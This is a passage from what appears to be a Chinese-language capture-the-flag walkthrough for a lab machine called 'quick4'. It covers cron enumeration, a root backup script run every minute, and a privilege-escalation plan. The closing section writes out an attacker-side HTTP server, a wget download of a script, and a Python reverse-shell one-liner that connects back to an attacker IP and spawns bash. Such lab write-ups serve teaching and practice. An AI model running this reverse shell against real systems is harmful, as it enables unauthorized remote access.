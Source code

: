 ```bash
cat /etc/cron*
cat: /etc/cron.d: Is a directory
cat: /etc/cron.daily: Is a directory
cat: /etc/cron.hourly: Is a directory
cat: /etc/cron.monthly: Is a directory
cat: /etc/cron.weekly: Is a directory
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
*/1 *   * * *   root    /usr/local/bin/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

hhh，真有定时任务欸，查看一下这个脚本：

```bash
#!/bin/bash
cd /var/www/html/
tar czf /var/backups/backup-website.tar.gz *
```

### 定时任务反弹shell

是个自动备份脚本，看看是否可编辑，等下我要编辑它干啥，我可以直接传一个反弹shell上去让他解压呀！nice!

因为有python，直接传python脚本了：

```python
# kali
python -m http.server 8888
# quick4
wget http://10.161.181.188:8888/fuck.py
# fuck.py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.161.181.188",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

